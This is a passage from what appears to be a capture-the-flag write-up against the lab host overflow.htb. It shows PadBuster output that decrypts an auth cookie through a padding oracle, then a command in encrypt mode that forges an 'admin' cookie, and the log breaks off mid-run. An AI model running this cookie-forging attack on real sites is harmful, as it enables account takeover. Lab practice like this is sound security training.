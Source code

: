 ```
[+] Success: (63/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): a3bfc0ae2fbd93b1
[+] Intermediate Bytes (HEX): c916caddf0618443
[+] Plain Text: l3z

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=sm1l3z

[+] Decrypted value (HEX): 757365723D736D316C337A0505050505

[+] Decrypted value (Base64): dXNlcj1zbTFsM3oFBQUFBQ==

-------------------------------------------------------
```

Registering an `admin` user was unsuccessful meaning it might already exist. Knowing the scheme of the cookie we can use padbuster again with the `-plaintext` flag to generate a valid cookie for `admin`.

```
$ padbuster http://overflow.htb g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx 8 -cookies auth=g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx -encoding 0 -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 12227

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     12227   N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
```